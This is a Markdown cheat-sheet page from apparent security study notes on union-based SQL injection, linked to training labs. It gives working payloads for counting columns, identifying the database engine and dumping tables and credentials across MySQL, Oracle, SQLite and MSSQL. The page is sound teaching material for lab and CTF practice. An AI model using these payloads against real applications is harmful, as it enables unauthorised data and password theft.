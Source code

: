 # Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![marketplace](../../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sql_injection_numeric](../../../../../_badges/rootme/web_server/sql_injection_numeric.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)
[![sqli_oracle_version](../../../../../_badges/ps-lab/sqli_oracle_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
[![sqli_oracle_dump](../../../../../_badges/ps-lab/sqli_oracle_dump.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
[![sqli_mysql_version](../../../../../_badges/ps-lab/sqli_mysql_version.svg)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
[![sqli_union_column_count](../../../../../_badges/ps-lab/sqli_union_column_count.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
[![sqli_union_column_type](../../../../../_badges/ps-lab/sqli_union_column_type.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
[![sqli_union_column_dump](../../../../../_badges/ps-lab/sqli_union_column_dump.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
[![sqli_union_column_concat](../../../../../_badges/ps-lab/sqli_union_column_concat.svg)](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
[![sqli_xml_bypass](../../../../../_badges/ps-lab/sqli_xml_bypass.svg)](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
UNION SELECT concat(col1,":",col2), NULL, NULL, NULL FROM database_name.table_name
UNION SELECT CONCAT_WS(':',col1,col2), NULL, NULL, NULL FROM database_name.table_name
UNION SELECT col1||":"||col2, NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>Oracle</summary>

You can use:

```sql!
union select table_name FROM all_tables
union select column_name FROM all_tab_columns where table_name='a_table'
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- columns given table
UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<a table>'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>

<details class="details-n">
<summary>MSSQL</summary>

Most of the instructions for MySQL and other are working, but there is major complication: `LIMIT 1 OFFSET 0` is not available.

```sql!
Select top 1 log,pwd [...] -- got 'toto'
Select top 1 log,pwd [...] where log not in ('toto') -- etc.
```

You can also try to order results if you can't you use the 'where' clause. In CTFs, the administrator is usually the first 'a'.
</details>
</div></div>